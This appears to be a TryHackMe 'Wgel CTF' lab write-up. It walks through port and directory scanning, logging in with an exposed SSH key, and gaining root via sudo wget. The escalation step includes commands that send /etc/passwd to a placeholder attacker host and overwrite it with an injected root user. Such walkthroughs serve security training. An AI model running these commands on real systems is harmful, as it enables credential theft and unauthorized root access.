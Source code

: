 ```yaml
---
title: TryHackMe Wgel CTF [CHALLENGE]
date: 2024-03-13 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png
---
```


Can you exfiltrate the root flag? This room have network service pentesting, linux privilege escalation, directory busting bruteforcing.

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Nmap scan report for 10.10.120.57
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.48 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.120.57

80 → HTTP
- Apache httpd 2.4.18
- There is comment in the apache default web page source code that could perhaps a username.
- There is a user input in /sitemap/contact

22 → SSH
- Found id_rsa

## **Enumeration**
---
### 80 HTTP
We know that this contains the default apache web server page that shouts "It Works!". But let's not forget to inspect the source code to not miss things out!

![Desktop View](/assets/images/wgel-ctf/jessie.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.120.57 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.120.57/sitemap/]
/server-status        (Status: 403) [Size: 277]
```

Upon inspecting the `/sitemap` webpage, we discovered that it accepts user input. However, after conducting basic [command injection](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) and [directory traversal](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) tests, it did not return any errors, which might indicate that the webpage is vulnerable to exploitation.


![Desktop View](/assets/images/wgel-ctf/contact.png){: width="972" height="589" }

Let us try doing some file busting and see if we can find something interesting.

```bash
gobuster dir -u http://10.10.120.57/sitemap/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30 
```

```text
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 21080]
/contact.html         (Status: 200) [Size: 10346]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 21080]
/about.html           (Status: 200) [Size: 12232]
/.html                (Status: 403) [Size: 277]
/blog.html            (Status: 200) [Size: 12745]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.120.57/sitemap/.ssh/]
/.DS_Store            (Status: 200) [Size: 14340]
/.htgroup             (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/work.html            (Status: 200) [Size: 11428]
/.htc                 (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
```
So, why do we have an exposed private key in the first place?

![Desktop View](/assets/images/wgel-ctf/privkey.png){: width="972" height="589" }

Question is, can this key be used by the username we just found from the source code?

## **Gaining an Initial Foothold**
---

```text
chmod 600 id_rsa
ssh -i id_rsa jessie@$IP
```
SSH private key file needs to be set with chmod 600 permissions to ensure that only the file owner can access the key while complying with SSH client security policies. Otherwise, it won't work.

![Desktop View](/assets/images/wgel-ctf/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/wgel-ctf/sudo.png){: width="972" height="589" }

The `wget` command is a versatile command-line tool that allows users to download one or several files at once from the internet or a server, utilizing various protocols such as HTTP, HTTPS, and FTP.

This implies that it is possible to download and modify the `/etc/passwd` file to insert a new user, thereby elevating our access privileges.

To start transferring the /etc/passwd to our attacking machine, we need to setup a typical netcat listener.

```bash
nc -lnvp <PORT> > <FILNAME>
```
![Desktop View](/assets/images/wgel-ctf/netcat.png){: width="972" height="589" }

On the target machine

```
sudo /usr/bin/wget --post-file=/etc/passwd <ATTACK_IP>:<PORT>
```
The `--post-file` flag enables wget to send the content of any file.

![Desktop View](/assets/images/wgel-ctf/wget.png){: width="972" height="589" }

From your attacking machine, you can view the extracted file and remove the http headers.

Once removed, generate a new hash password for a new root user in local machine.

```bash
openssl passwd -1 -salt thm password1
```

```bash
$1$thm$lQSjJL4ZZezfQn9UAZSqd1
```

Paste the generated hash to passwd.txt

```bash
echo 'jirho:$1$thm$lQSjJL4ZZezfQn9UAZSqd1:0:0:jirho:/home/jirho:/bin/bash' >> passwd.txt
```

From your attacker's machine working directory, setup a simple http server.

```bash
python3 -m http.server
```
On the target machine, get the file from your attacking machine

```bash
sudo /usr/bin/wget http://<ATTACK_MACHINE_IP>:<PORT>/passwd.txt -O /etc/passwd
```
Switch to the created user

```bash
su <USER>
password1 <-- enter the password you created from openssl
```
![Desktop View](/assets/images/wgel-ctf/root.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }

## **Materials/ References**
---

[Linux for Pentester: Wget Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

[Sudo Wget Privilege Escalation Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)



## **Take Away Concepts**
---

- Never skip viewing the source code of the website regardless if it is the default Apache webpage, as it might contain hidden comments with user credentials.
- Conduct thorough directory and file busting. Who knows? Maybe someone left their SSH private keys unattended.
- Understand how wget works to escalate your privileges. Took me about an hour doing some trial and error on how to add a root user to the /etc/passwd using wget
- Username can be brute force using SSH.